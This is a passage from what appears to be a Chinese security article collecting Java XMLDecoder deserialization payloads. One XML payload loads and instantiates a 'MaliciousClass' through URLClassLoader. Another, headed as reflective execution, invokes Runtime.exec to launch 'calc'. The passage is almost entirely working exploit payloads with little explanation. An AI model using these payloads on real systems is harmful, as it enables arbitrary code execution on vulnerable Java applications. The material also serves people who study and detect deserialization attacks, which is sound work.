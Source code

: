 ```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.net.URLClassLoader">
    <array class="java.net.URL" length="1">
      <void index="0">
        
        <object class="java.net.URL">
          <string>file:///C:/XXX/</string>
        </object>
      </void>
    </array>
    <void method="loadClass">
      <string>MaliciousClass</string>
      <void method="newInstance"/>
    </void>
  </object>
</java>
```  
  
  
1  
  
**0x09 反射执行**  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.lang.Class" method="forName">
    <string>java.lang.Runtime</string>
    <void method="getMethod">
      <string>exec</string>
      <array class="java.lang.Class" length="1">
        <void index="0">
          <object class="java.lang.Class" method="forName">
            <string>java.lang.String</string>
          </object>
        </void>
      </array>
      <void method="invoke">
        <object class="java.lang.Runtime" method="getRuntime"/>
        <array class="java.lang.Object" length="1">
          <void index="0">
            <string>calc</string>
          </void>
        </array>
      </void>
    </void>
  </object>
</java>
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/icZfUh6Tsbv0xAFjs5qQlsFCCmymOS3Vq8v6OSKDP0pw3aoCD4OTqojr5NMysBOcoMehddw6JUqYXVuurThNLsQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
  
END  
  
  
  
如您有任何  
```